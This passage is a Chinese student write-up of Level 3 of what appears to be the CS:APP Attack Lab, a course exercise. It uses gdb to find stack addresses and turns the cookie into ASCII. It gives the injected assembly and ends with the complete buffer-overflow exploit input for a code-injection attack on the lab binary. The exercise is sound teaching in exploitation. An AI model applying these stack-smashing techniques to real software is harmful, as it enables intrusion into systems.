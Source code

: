 #### 0x1.3 Level 3

`sval` 就是需要我们传入的参数，`cookie` 是需要比较的内容，可以先找到 `touch3` 函数的地址是 `0x4018fa`，先使用 `gdb`在 `touch3` 的入口打上断点，然后按照 level1 的做法，让程序在 `return` 之后跳转到 `touch3`，接着单步运行，到执行 `hexmatch` 函数之前，这个时候可以通过下面的方式访问需要的字符串以及他们对应的 16 进制数字

```javascript
(gdb) x/s 0x6044e4
0x6044e4 <cookie>:      "\372\227\271Y"
(gdb) p/x "\372\227\271Y"
$3 = {0xfa, 0x97, 0xb9, 0x59, 0x0}
```

接着再将这里的 16 进制数字转换成 `anscii` 码，比如 `f` 对应 `0x66`，以此转换即可得到需要写入的 16 进制数字。

在获得了需要输入的字符串之后，我们可以仿照 level2 进行数据的插入，不过需要思考一个问题，那就是在调用 `hexmatch` 这个函数的时候，会有压栈的操作，如果保存的数据在栈里面，有可能会被覆盖。

我们可以查看 `hexmatch` 的代码，发现在压栈的时候，有下面这行代码

```javascript
401850:	48 83 c4 80   add    $0xffffffffffffff80,%rsp
```

将上面的立即数翻译成一个有符号的正数，结果就是 `-128`，所以栈顶会减小 128 个字节，如果将数据放在这里，会出现覆盖的风险，应该将字符串放在 `$rsp` 最大的位置。

可以通过打断点，在 `getbuf` 的 `retq` 停下来，然后通过 `p/x $rsp` 获得目前栈顶的地址是 `0x5561dca0`，接着会执行 `retq` 操作，这样栈顶会增加 8，这就是整个程序运行过程中的最大栈顶地址，我们可以在这里写入需要传到 `touch3` 中的字符串，那么这里的地址就是 `0x5561dca8`，所以最终我们插入的可执行代码为

```javascript
pushq $0x4018fa
movq $0x5561dca8,%rdi
retq
```

接着仿照 level2 的做法可以获得这段可执行代码的字节码如下

```javascript
0000000000000000 <.text>:
   0:	68 fa 18 40 00       	pushq  $0x4018fa
   5:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   c:	c3                   	retq
```

所以最后我们要写入的 txt 文本为

```javascript
68 fa 18 40 00
48 c7 c7 a8 dc 61 55
c3
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

最顶上是可执行代码，接着中间是占位符，然后填入执行代码的地址是 `0x5561dc78`，在最后输入字符串对应的 `anscii` 码。
注意字符串从内存中读取的时候，是按地址从小到大进行读取的，但是在写入字符串的时候却是从大到小，所以这里需要颠倒一下顺序。
